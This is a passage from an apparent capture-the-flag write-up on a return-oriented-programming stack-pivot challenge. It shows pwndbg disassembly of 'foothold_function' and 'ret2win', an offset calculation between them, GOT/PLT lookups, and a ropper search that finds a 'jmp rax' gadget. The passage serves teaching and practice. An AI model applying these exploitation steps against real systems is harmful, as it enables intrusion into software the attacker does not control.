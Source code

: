 If we look at the gadgets that we have access to, we have complete control over rax, can add values to rax (if we can control rbp), and we can place arbitrary chunks of memory into rax.

After doing a quick check, we are able to easily find a pop rbp register as well. 
So we collect the information that we need:

```
gdb ./libpivot.so
pwndbg> disass foothold_function 
Dump of assembler code for function foothold_function:
   0x000000000000096a <+0>:     push   rbp
   0x000000000000096b <+1>:     mov    rbp,rsp
   0x000000000000096e <+4>:     lea    rdi,[rip+0x1ab]        # 0xb20
   0x0000000000000975 <+11>:    call   0x830 <puts@plt>
   0x000000000000097a <+16>:    nop
   0x000000000000097b <+17>:    pop    rbp
   0x000000000000097c <+18>:    ret    
End of assembler dump.
pwndbg> disass ret2win 
Dump of assembler code for function ret2win:
   0x0000000000000a81 <+0>:     push   rbp
   0x0000000000000a82 <+1>:     mov    rbp,rsp
   0x0000000000000a85 <+4>:     sub    rsp,0x40

```

0x96a-0xa81 = offset

Global offset Table address
```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 9
 
...
[0x601040] foothold_function -> 0x400726 (foothold_function@plt+6) ◂— push   5
...

pwndbg> plt
...
0x400720: foothold_function@plt
...
```

Finally, let's see if there is anything that can move the IP to rax.

```
pwndbg> ropper -- --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: /root/working/pivot/pivot_64/pivot
0x00000000004007c1: jmp rax; 
```
